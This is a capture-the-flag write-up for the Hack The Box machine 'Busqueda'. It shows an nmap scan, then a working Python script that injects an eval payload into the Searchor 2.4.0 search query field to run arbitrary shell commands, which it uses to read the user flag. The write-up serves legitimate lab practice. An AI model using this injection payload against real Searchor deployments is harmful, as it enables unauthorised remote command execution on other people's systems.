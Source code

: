 ```yaml
---
cover: ../../../../.gitbook/assets/Busqueda.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Busqueda

```bash
nmap -p- -T4 searcher.htb
```

There are 2 ports : `80` and `22`.

* 22 (OpenSSH 8.9p1 Ubuntu 3ubuntu0.1)
* 80 (Apache httpd 2.4.52)

<figure><img src="../../../../.gitbook/assets/busqueda-version.png" alt=""><figcaption></figcaption></figure>

The Searchor Version is `2.4.0`. There is a vulnerability on this version : [github.com](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b#diff-40a1b591e95ee135f3f26e8ffa117a4816c202b6ce76852be85018fed09c4436)&#x20;

<figure><img src="../../../../.gitbook/assets/busqueda-1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/busqueda-2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/busqueda-3.png" alt=""><figcaption></figcaption></figure>

I can craft a script to get a web shell.

```python
import requests, sys

url = "http://searcher.htb/search"
engine = "Accuweather"
query = sys.argv[1]

headers = {
	'Host': 'searcher.htb',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Content-Length': '30',
	'Origin': 'http://searcher.htb',
	'Connection': 'close',
	'Referer': 'http://searcher.htb/',
	'Upgrade-Insecure-Requests': '1',
}

data = {
    'engine': engine,
    'query': f"') and print(__import__('os').system('{query}'))#"
}

response = requests.post(url=url, headers=headers, data=data)
print(response.text)
```

Then I can execute it.

```bash
python3 script.py "cat /home/svc/user.txt"
```
